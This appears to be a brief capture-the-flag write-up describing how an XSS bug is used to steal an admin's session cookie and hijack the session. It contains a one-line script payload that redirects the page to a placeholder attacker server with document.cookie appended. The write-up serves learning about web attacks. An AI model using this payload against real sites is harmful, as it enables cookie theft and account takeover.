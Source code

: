 This requires you to xss the page, and leak the cookie. Add a page with `<script>location.href='(server)?cookie'+document.cookie</script>`. Then report abuse on it, and you'll get the cookie of the admin!

Next, just use a cookie editor to insert the session id into your own session. Now you've hijacked the session of the admin! The flag is simply named Flag.